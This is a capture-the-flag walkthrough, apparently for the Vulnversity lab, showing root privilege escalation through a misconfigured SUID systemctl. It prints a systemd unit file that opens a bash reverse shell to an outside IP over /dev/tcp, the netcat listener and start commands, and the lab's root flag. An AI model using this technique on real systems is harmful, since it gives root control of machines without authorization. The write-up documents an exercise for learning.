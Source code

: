 *Become root and get the last flag (/root/root.txt)*

We know that systemctl allows you to start, enable, disable different services. This should be for privileged users only, however it's been misconfigured here with the SUID bit set to allow anyone to run it as root.

So we can instead create our own service that starts up a shell, and start it with systemctl. Since systemctl runs as root, we should get a root shell.

Remember, systemd is the actual Linux Service Manager. We use systemctl to control systemd.

1. Create the Systemd Unit File

Found [here](https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49), credit to them!

```bash
www-data@vulnuniversity:/tmp$ cat root.service
[Unit]
Description=Get me to root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.8.82.167/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

What this does:

[Tutorial 1 - Digital Ocean](https://www.digitalocean.com/community/tutorials/understanding-systemd-units-and-unit-files)

[Tutorial 2 - FreeDesktop](https://www.freedesktop.org/software/systemd/man/systemd.service.html)

[Tutorial 3 - Man](https://man7.org/linux/man-pages/man5/systemd.service.5.html)

From what it looks like, we're providing the service with the BARE minimum required to create a service. The "ExecStart" just executes the command, in this case it's a reverse bash shell found [here](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) (PentestMonkey).

Then start up a netcat listener on your terminal:

    nc -lvnp 9999

Finally, run:

    systemctl /tmp/root.service

And you'll have a root shell on your Netcat Listener!

![Root Flag](images/root-flag.png)

Flag: a58ff8579f0a9270368d33a9966c7fd5

Completed!
